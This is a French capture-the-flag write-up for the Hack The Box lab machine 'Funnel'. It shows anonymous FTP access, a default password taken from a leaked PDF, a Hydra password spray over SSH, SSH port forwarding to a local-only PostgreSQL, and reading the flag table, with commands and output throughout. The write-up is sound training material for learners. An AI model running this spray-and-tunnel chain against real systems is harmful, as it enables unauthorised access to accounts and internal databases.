

# Introduction

Bienvenue sur **Funnel**, une machine du **Tier 1** de **Starting Point** qui illustre une chaîne d'attaque classique : des identifiants qui fuient via un **FTP anonyme**, un mot de passe par défaut jamais changé, et une base de données **PostgreSQL** accessible uniquement en local... jusqu'à ce qu'on utilise le **port forwarding SSH**.

:::tip
Attention : Il s'agit d'une machine VIP. Vous aurez besoin d'un abonnement HTB pour pouvoir la lancer.
:::

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

[▶ RavenBreach sur YouTube](https://www.youtube.com/@Raven_Breach/videos)

---

## Reconnaissance

### Découverte d'hôte

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ping 10.129.228.195

64 bytes from 10.129.228.195: icmp_seq=1 ttl=63 time=7.60 ms
```

TTL de 63 → machine **Linux**.

### Énumération des services

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ nmap -sV 10.129.228.195

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
```

### Scan approfondi

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ nmap -p21,22 -sC -sV 10.129.228.195

21/tcp open  ftp  vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp  ftp  4096 Nov 28  2022 mail_backup
```

**Connexion FTP anonyme autorisée** avec un dossier `mail_backup` visible !

---

## Pré-Exploitation

### Connexion FTP anonyme et récupération des fichiers

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ftp 10.129.228.195

Name: anonymous
230 Login successful.
ftp> cd mail_backup
ftp> dir

-rw-r--r--  password_policy.pdf
-rw-r--r--  welcome_28112022
```

On récupère les deux fichiers avec `get`.

### Analyse des fichiers

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ cat welcome_28112022

From: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb

Hello everyone,
We have set up your accounts. Please, read through the attached password policy.
```

On découvre :
- Nom de domaine : `funnel.htb`
- Liste d'utilisateurs : `optimus`, `albert`, `andreas`, `christine`, `maria`
- Le PDF joint contient les identifiants



Le fichier `password_policy.pdf` révèle le **mot de passe par défaut** : `funnel123#!#`.

:::tip
Dans un vrai engagement de pentest, ce genre de document interne est de l'or. Les utilisateurs qui n'ont pas changé leur mot de passe par défaut sont des cibles prioritaires.
:::

---

## Exploitation

### Bruteforce SSH avec Hydra

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ cat usernames.txt
root
optimus
albert
andreas
christine
maria

┌─[ravenbreach@htb]─[~]
└──╼ $ hydra -L usernames.txt -p 'funnel123#!#' 10.129.228.195 ssh

[22][ssh] host: 10.129.228.195   login: christine   password: funnel123#!#
```

**Christine** n'a pas changé son mot de passe par défaut.

### Connexion SSH et énumération interne

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ssh christine@10.129.228.195

christine@funnel:~$
```

On cherche les services en écoute sur localhost :

```bash
christine@funnel:~$ ss -tl

LISTEN  0  4096  127.0.0.1:postgresql  0.0.0.0:*
LISTEN  0  32    *:ftp                 *:*
```

Une base de données **PostgreSQL** tourne en local — mais `psql` n'est pas installé sur la machine et on ne peut pas l'accéder depuis l'extérieur.

### Port Forwarding SSH

On crée un tunnel SSH : le port local **1234** redirige vers le port **5432** (PostgreSQL) de la machine distante.

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ssh -L 1234:localhost:5432 christine@10.129.228.195
```

On vérifie que le tunnel est actif :

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ss -tlnp

LISTEN  0  128  127.0.0.1:1234  users:(("ssh",pid=157558))
```

### Connexion à PostgreSQL via le tunnel

```bash
sudo apt install postgresql-client

┌─[ravenbreach@htb]─[~]
└──╼ $ psql -U christine -h localhost -p 1234

Password for user christine: funnel123#!#
christine=#
```

---

## Post-Exploitation

### Exploration de la base de données

```sql
christine=# \l

    Name   |  Owner
-----------+-----------
 secrets   | christine
```

```sql
christine=# \connect secrets
secrets=# \dt

 Schema | Name | Type  |   Owner
--------+------+-------+-----------
 public | flag | table | christine

secrets=# SELECT * FROM flag;

              value
----------------------------------
 cf2{...}db1
```

La machine est **pwned** !

---

## Conclusion

Chaîne d'exploitation :
1. **FTP anonyme** → mail de bienvenue + PDF avec mot de passe par défaut
2. **Password spray Hydra** → connexion SSH via `christine`
3. **Énumération interne** → PostgreSQL sur localhost:5432
4. **Port Forwarding SSH** → tunnel local:1234 → distant:5432
5. **PostgreSQL** → flag dans la base `secrets`
